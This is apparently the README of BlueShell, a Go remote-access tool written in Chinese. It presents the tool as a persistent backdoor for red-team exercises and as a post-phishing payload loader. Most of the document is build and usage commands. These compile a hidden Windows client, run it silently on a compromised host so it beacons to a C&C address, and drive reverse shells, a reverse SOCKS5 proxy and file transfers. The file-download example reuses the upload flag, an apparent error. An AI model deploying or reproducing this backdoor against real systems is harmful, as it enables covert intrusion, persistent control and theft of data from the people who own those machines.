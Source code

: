 BlueShell
===
BlueShell是一个Go语言编写的持续远控工具，拿下靶机后，根据操作系统版本下载部署对应的bsClient，其会每隔固定时间向指定的C&C地址发起反弹连接尝试，在C&C端运行bsServer即可连接bsClient，从而实现对靶机的持续控制，主要适用场景：
+ 红蓝对抗中的持久化后门或内网代理
+ 社工钓鱼二次加载Payload

目前支持的主要功能有：
+ 循环持续控制
+ 跨平台，支持Linux、Windows、MacOS
+ 交互式Shell反弹,Linux支持Tab补全、VIM、Ctrl+C等交互式操作，Windows只支持普通反弹Shell
+ Socks5代理反弹
+ 文件上传、下载
+ TLS通信加密

项目地址:https://github.com/whitehatnote/BlueShell

编译可执行文件
---

### Linux and MacOS
生成bsClient
```shell
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w " -o bsClient client.go
```
生成bsServer
```shell
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
### Windows
生成bsClient
```shell
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w -H=windowsgui" -o bsClient.exe client.go
```

工具使用方法
---
### Client
在受控靶机上运行bsClient    
#### Windows靶机：    
默认配置模式启动
```shell
start /b bsClient.exe
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口,-t指定尝试连接远控的间隔秒数
```shell
start /b bsClient.exe -h 10.0.0.1 -p 443 -t 10
```
#### Linux and MacOS靶机:    
默认配置模式启动
```shell
nohup bsClient &
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口
```shell
nohup bsClient -h 10.0.0.1 -p 443 &
```
### C&C Server
远控端运行bsServer,需要是Linux机器,并且key目录与bsServer在相同根目录下,启动成功如下效果：
```
[root@host BluesShell]# ls -al
总用量 4148
drwxr-xr-x   3 root root    4096 6月  17 22:14 .
drwxrwxrwt. 10 root root   40960 6月  17 22:13 ..
-rwxr-xr-x   1 root root 4193320 6月  17 22:13 bsServer
drwxr-xr-x   2 root root    4096 6月  17 22:13 key
[root@host BluesShell]# ./bsServer
waiting for client connect...
```
#### Action:反弹shell
默认启动，远控监听8081端口，执行反弹shell操作
```shell
./bsServer
```
参数启动，-p指定远控监听443端口，-a指定执行反弹shell操作
```shell
./bsServer -p 443 -a shell
```
windows靶机的乱码问题解决,-rencode指定靶机的编码类型
```shell
./bsServer -rencode gb2312
```
#### Action:反弹Socks5代理
默认启动，远控监听8081端口，执行反弹socks操作，socks5的默认监听端口为7777，默认用户名blue，默认密码Blue@2020
```shell
./bsServer -a socks
```
参数启动，-p指定远控监听443端口，-a指定执行反弹socks操作,-sport指定socks监听的端口为7778，-suser指定socks代理的认证账号，-spass指定socks代理的认证密码
```shell
./bsServer -p 443 -a socks -sport 7778 -suser socksUser -spass socksPassword
```
#### Action:文件上传下载
上传本地文件到受控靶机，-lpath指定需要上传的本地文件路径，-rdir指定上传到的目录
```shell
./bsServer -a upload -lpath /tmp/tmp.txt -rdir c:\\
```
从受控靶机下载文件到本地，-rpath指定需要下载的文件地址，-ldir指定存放下载文件的本地路径
```shell
./bsServer -a upload -rpath c:\\tmp.txt -ldir /tmp
```

0x4. 参考
---
+ https://github.com/sysdream/hershell
+ https://github.com/creaktive/tsh
